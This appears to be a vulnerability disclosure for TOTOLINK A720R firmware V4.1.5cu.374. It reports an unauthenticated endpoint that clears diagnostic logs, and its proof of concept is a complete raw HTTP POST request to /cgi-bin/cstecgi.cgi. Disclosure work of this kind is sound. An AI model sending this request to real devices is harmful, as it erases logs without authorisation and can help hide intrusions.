 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthenticated diagnostic log clearing vulnerability. An attacker can exploit this flaw by sending a crafted POST request with the parameter `{"topicurl":"clearDiagnosisLog"}` to `/cgi-bin/cstecgi.cgi`, allowing unauthorized clearing of ping diagnostic logs without authentication.

# Poc

Diagnosis logs are normally recorded.

![图 0](img/355873a1c6cd8fca3d27b132d448f095be36454ade50acf3fe0c4f2a281fc5ff.png)  

Send a request to clear the diagnosis log.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 32
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"clearDiagnosisLog"}
```

![图 1](img/0c3e3e039192da917d00d3d3df381a5c574eab6ff22bf4849ca433a90c6be832.png)  

The diagnosis logs are cleared.

![图 2](img/72f436e041e5c6c715c21bcd2ff2e888686c4077c1da6546e1311d6a6fe1a95a.png)  
